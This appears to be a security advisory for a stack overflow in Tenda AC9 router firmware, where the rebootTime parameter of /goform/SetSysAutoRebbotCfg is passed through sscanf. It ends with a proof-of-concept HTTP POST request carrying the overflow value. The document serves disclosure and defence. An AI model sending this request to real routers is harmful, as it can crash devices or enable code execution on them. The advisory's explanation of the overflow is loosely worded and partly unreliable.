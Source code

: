 # Tenda AC9 V1.0 V15.03.05.14_multi stack overflow vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, the rebootTime parameter of route /goform/SetSysAutoRebbotCfg has a stack overflow vulnerability, which can lead to remote arbitrary code execution.
## Vulnerability Detail
There is a stack overflow vulnerability in the formSetRebootTimer function in Tenda AC9 V1.0 firmware V15.03.05.14_multi.This function accepts the rebootTime parameter from a POST request by variable s.However, since the user has control over the input of rebootTime, and sscanf() simply parses the data in the format specified by format and stores it directly into the target variable，the statement "sscanf(s,"%d:%d",&v7,&v6);  " may leads to a buffer overflow.  The user-supplied rebootTime can exceed the capacity of the  v6  array, thus triggering this security vulnerability.

![img](./img/SetSysAutoRebbotCfg.png)

## Poc
```py
POST /goform/SetSysAutoRebbotCfg HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

rebootTime=00:88888
```
